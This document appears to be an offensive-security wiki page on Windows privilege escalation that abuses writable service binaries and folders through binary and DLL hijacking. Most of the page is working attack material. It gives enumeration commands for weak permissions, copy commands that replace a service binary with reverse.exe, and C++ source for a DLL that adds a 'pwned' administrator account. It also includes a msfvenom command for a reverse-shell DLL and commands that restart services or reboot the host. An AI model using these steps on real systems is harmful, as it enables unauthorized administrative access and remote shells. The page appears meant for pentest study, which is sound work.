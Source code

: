```yaml
---
description: MITRE ATT&CK™ Hijack Execution Flow - Technique T1574
---
```


# Weak File/Folder Permissions

## Theory

It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have write permissions over the folder or binary used by the service you can use it to escalate you privileges.

## Practice

### Service Binary Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Given sufficient permissions over a service's binary, swapping it with our own binary enables us to gain code execution as the user configured to run this service.

To identify weaknesses in service binary permissions, we can take the following steps: retrieve a complete list of all service binary files, retrieve their permissions, identify specific ones for our controlled user.

We can perform such enumeration by using one of the following methods:

#### CMD

```powershell
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt
for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

#### PowerShell

```powershell
Get-WmiObject Win32_Service | ForEach-Object { $serviceName = $_.Name; $path = $_.PathName; $startName = $_.StartName; if ($path -ne $null -and $path -ne "") { $formattedPath = if ($path -match '.*\.exe') { if ($path -match '^"(.+?\.exe)') { $matches[1] } else { $path -replace '^(.*\.exe).*', '$1' } } else { $path }; $acl = try { Get-Acl -Path $formattedPath -ErrorAction Stop } catch { $null }; if ($acl -ne $null) { $relevantACE = $acl | Select-Object -ExpandProperty Access | Where-Object { $_.FileSystemRights -match 'Write|FullControl|Modify' }; if ($relevantACE) { [PSCustomObject]@{ ServiceName = $serviceName; FormattedPath = $formattedPath; StartName = $startName; ACL = $relevantACE | Select-Object -Property IdentityReference, FileSystemRights | Format-List | Out-String } } } } } | Sort-Object -Property FormattedPath -Unique | Format-List
```

#### PowerUp

```powershell
. .\PowerUp.ps1
Get-ModifiableServiceFile
```

#### winPEAS

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
If we find an editable service binary, we can simply replace it with a malicious one as follow:

```powershell
# Backup the binary
copy /y "c:\Program Files\File Permissions Service\filepermservice.exe" c:\Temp\filepermservice_backup.exe

# Hijack the binary 
copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```

Then, restart the service to trigger the execution

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```

{% hint style="success" %}
If we can't restart the service, we may check if it has `StartMode`set to `Auto`.&#x20;

If so, we can reboot the target to trigger the new binary (we will need the `SeShutdownPrivilege`for that).

```powershell
#Exemple of getting StartMode for MySVC
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'MySVC'}

#Reboot
shutdown /r /t 0 
```
{% endhint %}
{% endtab %}
{% endtabs %}

### Service DLL Hijacking

{% hint style="info" %}
DLL hijacking can be applied in many other cases, but this section focuses solely on services. For a more comprehensive approach, please refer to [this page](../dll-hijacking.md).
{% endhint %}

{% tabs %}
{% tab title="Enumerate" %}
In case you have write permissions over the service binary folder, we can write our DLL in and then hijack the DLL search order. Here is the default DLL search order in windows (in safe mode which is the default):&#x20;

1. The executable directory.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

We can enumerate permissive service folders by using the following PowerShell command

```powershell
Get-WmiObject Win32_Service | ForEach-Object { $s = $_.Name; $p = $_.PathName; $start = $_.StartName; if ($p -ne $null -and $p -ne "") { $f = if ($p -match '.*\.exe') { if ($p -match '^"(.+\\)') { $matches[1] } else { $p -replace '^(.*\\).*', '$1' } } else { $p }; $a = try { (Get-Acl -Path $f -ErrorAction Stop).Access | Where-Object { $_.FileSystemRights -match 'Write|FullControl|Modify' } } catch { $null }; if ($a) { [PSCustomObject]@{ ServiceName = $s; StartName = $start; ExecutableFolder = $f; FolderACL = $a | Select-Object IdentityReference, FileSystemRights | Format-List | Out-String } } } } | Sort-Object -Property ExecutableFolder -Unique | Format-List
```

If we find a writable service folder, we first want to exfiltrate its service binary to a local windows machine. On this controlled computer, download [Process Monitor (procmon)](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) to monitor for missing or hijackable DLLs.

In procomon, specify this three filters (edit the service name with yours):

<figure><img src="../../../.gitbook/assets/Capture d’écran_2023-11-09_01-29-36.png" alt=""><figcaption><p>Procmon Filters</p></figcaption></figure>

We may find some `CreateFile` actions with a `NAME NOT FOUND` result for a dll inside of the writable service binary folder. If so we can use this DLL name for DLL Hijacking !

<figure><img src="../../../.gitbook/assets/Capture d’écran_2023-11-09_01-32-10.png" alt=""><figcaption><p>DLL Not Found</p></figcaption></figure>
{% endtab %}

{% tab title="Exploit" %}
If we've found a DLL we can hijack, the hard part is over. Now let's compile a custom DLL using the following code (in this example, the vulnerable DLL is named "hijackme.dll").

{% code title="hijackme.cpp" %}
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user pwned P@ssword! /add");
  	    i = system ("net localgroup administrators pwned /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
{% endcode %}

```bash
#Compile it
x86_64-w64-mingw32-gcc hijackme.cpp --shared -o hijackme.dll
```

Or use msfvenom to directly generate a malicious DLL.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> EXITFUNC=thread -f dll -o hijackme.dll
```

Now, after transferring the DLL to the target host, copy the DLL to the path we found.

```powershell
# Hijack the DLL 
copy /y c:\Temp\hijackme.exe "C:\Program Files\Folder Permissions Service\hijackme.dll"
```

Finaly, restart the service to trigger the execution

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```

{% hint style="success" %}
If we can't restart the service, we may check if it has `StartMode`set to `Auto`.&#x20;

If so, we can reboot the target to trigger the new binary (we will need the `SeShutdownPrivilege`for that).

```powershell
#Exemple of getting StartMode for MySVC
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'MySVC'}

#Reboot
shutdown /r /t 0 
```
{% endhint %}
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services" %}
